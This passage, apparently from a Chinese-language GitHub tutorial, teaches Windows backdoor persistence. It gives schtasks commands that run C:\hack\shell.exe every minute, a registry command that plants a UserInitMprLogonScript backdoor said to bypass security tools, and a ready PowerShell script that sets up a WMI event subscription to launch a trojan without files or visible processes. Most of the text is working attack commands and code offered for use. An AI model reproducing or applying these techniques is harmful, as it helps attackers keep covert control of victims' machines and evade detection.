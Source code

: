 **3.1 DOS命令创建计划任务**

每分钟执行一次程序：`C:\hack\shell.exe`

```bash
C:\Users\lonelyor>schtasks /Create /tn test /tr C:\hack\shell.exe /sc minute /mo 1
成功: 成功创建计划任务 "test"。
```

**3.2 查看所有定时任务**

```bash
C:\Users\lonelyor>schtasks

文件夹: \
任务名                                   下次运行时间           模式
======================================== ====================== ===============
test                                     2023/11/5 16:23:00     正在运行
```

**3.3 删除指定定时任务**

```bash
C:\Users\lonelyor>schtasks /delete /tn test
警告: 确实要删除任务 "test" 吗 (Y/N )? y
成功: 计划的任务 "test" 被成功删除。
```

## 4. LogonScript后门

使用此方法植入后门可绕过安全工具的检测

注意键名最好不要改，在用户重新登录时会自动启动

```bash
REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\hack1\shell.exe"
```

## 5. Windows 基础概念

WMI 是基于 Windows 的操作系统上管理数据和操作的基础结构。用户可以使用 WMI 管理本地和远程计算机。WMI 是 Windows 操作系统的功能，无须安装就可以使用。某些 Provider (提供程序) 的安装会由系统配置而定

依托于WMI来制造的后门可以做到**无文件、无进程**

## 6. 本地调用无后门

**powershell 脚本**

使用时注意修改指定的木马文件路径，并且用管理员的身份允许powershell

```powershell
$filterName = 'lonelyorfn'
$consumerName = 'lonelyorcsn'
$exePath = 'C:\hack2\shell.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=
$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=
$WMIEventFilter;Consumer=$WMIEventConsumer}
```
